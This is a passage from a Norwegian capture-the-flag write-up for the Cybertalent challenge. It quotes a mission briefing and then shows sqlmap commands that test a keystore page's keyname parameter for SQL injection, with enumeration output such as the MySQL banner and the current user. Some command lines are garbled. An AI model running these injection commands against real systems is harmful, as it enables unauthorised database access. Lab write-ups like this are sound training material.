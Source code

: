 ### Middels - Explosion
    Vi får et binærprogram, hvor vi må reversere for å forstå hvordan dette fungerer.

Nope! Denne tok jeg ikke i det hele tatt.

## Selve Oppdraget
Denne seksjonen blir ikke så veldig strukturert, og sannsynligvis en blanding av norsk og engelsk, 
for den blir skrevet lenge etter at den ble gjort og notatene mine fra den tiden har rom for forbedringer.
Jeg dumper det uansett ut relativt uformattert. 😌

## Situasjon
    Vi har mottatt informasjon om at en ukjent trusselaktør har fått tilgang
    til maskiner knyttet til et av våre departementer. Basert på nåværende
    situasjonsforståelse er det lite som er kjent om hendelsesforløpet. Trusselen
    kommer fra en aktør i utlandet, trolig en aktør med omfattende ressurser.

    Initiell analyse tilsier at aktøren eksfiltrerer data til domenet
    cloud-c2-70, på port 1337/TCP. Formatet er ukjent.

    Det er også observert trafikk knyttet til aktøren mot denne nettadressen:
    http://keystore/query.php?keyname=oper@cloud-mgr-15

## Oppdrag
    Vi trenger informasjon om trusselaktørens kapabiliteter og intensjon.

    Initielt ønsker vi å få vite hvem som lastet opp nøkler til
    keystore.

    Videre er din oppgave er å få tilgang til serveren cloud-c2-70
    og forsøke å avdekke hva som er stjålet i angrepet. Informasjon om
    trusselaktørens verktøy, infrastruktur, sertifikater og nøkler kan også
    være av interesse.

    Viktig: Før du kan sette i gang med oppdraget må du logge ut og
    kjøre kommandoen:

    ────────────────────
    $ ssh login@ctf.cybertalent.no START-OPPDRAG
    ────────────────────

    Lykke til!

## SQL injection
Uploaded sqlmap, and found that the keyname is vulnerable to sql injection.
~~~bash
python3 sqlmap.py -v -u http://keystore/query.php?keyname=oper@cloud-mgr-15 --random-agent --delay=5
~~~
so, what now? poke around in the db a bit first.
~~~bash
python3 sqlmap.py -v -u http://keystore/query.php?keyname=oper@cloud-mgr-15 --random-agent --delay=6 -bck-end DBMS: MySQL >= 5.0.12
banner: '8.0.19'

--current-user
current user: 'keystore@%'

--current-db
current database: 'keystore'

--is-dba
False

~~~